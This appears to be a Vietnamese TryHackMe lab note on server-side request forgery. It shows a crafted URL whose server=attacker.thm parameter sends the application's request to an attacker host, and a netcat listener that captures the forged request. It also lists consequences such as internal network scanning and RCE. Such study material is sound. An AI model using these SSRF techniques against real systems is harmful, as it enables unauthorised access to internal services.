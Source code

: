     - Ví dụ: https://www.mysite.com/sms?server=attacker.thm&msg=ABC

    - Ứng dụng sẽ gửi yêu cầu đến https://attacker.thm/api/send?msg=ABC.

- Bắt nội dung yêu cầu:

    - Kẻ tấn công sử dụng công cụ như ***NetCat*** để bắt và xem nội dung yêu cầu.

        user@attackbox$ nc -lvp 80
        Listening on 0.0.0.0 80
        Connection received on 10.10.1.236 43830
        GET /:8087/public-docs/123.pdf HTTP/1.1
        Host: 10.10.10.11
        User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
        Accept: */*
    
=> Hậu quả của SSRF:

- ***Liệt kê mạng nội bộ***:
    
    - Kẻ tấn công có thể khám phá các IP và port trong mạng nội bộ của ứng dụng.

- ***Lạm dụng mối quan hệ tin cậy:***

    - Kẻ tấn công có thể truy cập các dịch vụ bị hạn chế bằng cách lợi dụng sự tin cậy giữa các server.

- ***Thực thi mã từ xa (RCE):***

    - Kẻ tấn công có thể tương tác với các dịch vụ không phải HTTP để thực thi mã độc.

Truy cập http://10.10.115.163:8087/

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Web_Hacking_Fundamentals/images/image55.png?raw=true)

Thử truy cập endpoint ***/admin***: 

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Web_Hacking_Fundamentals/images/image56.png?raw=true)
